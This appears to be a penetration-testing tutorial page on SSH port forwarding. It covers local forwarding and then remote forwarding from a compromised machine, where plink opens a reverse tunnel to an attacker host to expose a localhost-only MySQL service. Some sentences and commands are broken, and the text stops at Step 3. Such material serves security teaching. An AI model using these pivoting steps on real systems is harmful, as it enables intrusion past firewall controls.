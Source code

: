 **Use cases**

* You want to encrypt traffic that uses unencrypted protocols. Like VNC, IMAP, IRC.
* You are on a public network and want to encrypt all your http traffic.
* You want to bypass firewall rules.

### Local port forwarding

Now facebook will be available on address localhost:8080.

```
ssh -L 8080:www.facebook.com:80 localhost
```

You can also forward ports like this:

```
ssh username@<remote-machine> -L localport:target-ip:target-port

ssh username@192.168.1.111 -L 5000:192.168.1.222:5000
```

Now this port will be available on your localhost.  
So you go to:

```
nc localhost:10000
```

### Remote port forwarding

Remote port forwarding is crazy, yet very simple concept. So imagine that you have compromised a machine, and that machine has MYSQL running but it is only accessible for localhost.  Alternatively, you may have compromised a machine in a network and . The steps are as following:

Here is how you create a remote port forwarding:

```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

By the way, plink is a ssh-client for windows that can be run from the terminal. The ip of the attacking machine is **111.111.111.111**.

**Step 1**  
So on our compromised machine we do:

```
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

**Step 2**  
Now we can check netstat on our attacking machine, we should see something like this:

```
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt
```

That means what we can connect to that port on the attacking machine from the attacking machine.

**Step 3**  
Connect using the following command:
